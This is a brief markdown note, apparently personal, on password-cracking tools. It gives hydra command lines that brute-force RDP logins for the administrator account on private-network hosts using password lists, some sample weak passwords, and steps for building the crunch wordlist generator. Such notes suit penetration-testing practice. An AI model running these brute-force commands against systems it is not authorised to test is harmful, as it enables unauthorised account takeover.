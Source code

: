 # hydra
## demo
- demo
```
hydra 192.168.2.158 -s 9999 rdp -l administrator -P safe_pwd.txt -V

# safe_pwd.txt
123456
ll5201314
```

### rdp demo
```
hydra 192.168.2.127 -s 3389 rdp -l Administrator -P pass_dev2_004.txt -t4 -V -W 1
```


## crunch
- centos 安装
```
wget --no-check-certificate  https://udomain.dl.sourceforge.net/project/crunch-wordlist/crunch-wordlist/crunch-3.6.tgz
tar -xzvf crunch-3.6.tgz
cd crunch-3.6/
make
make install
```
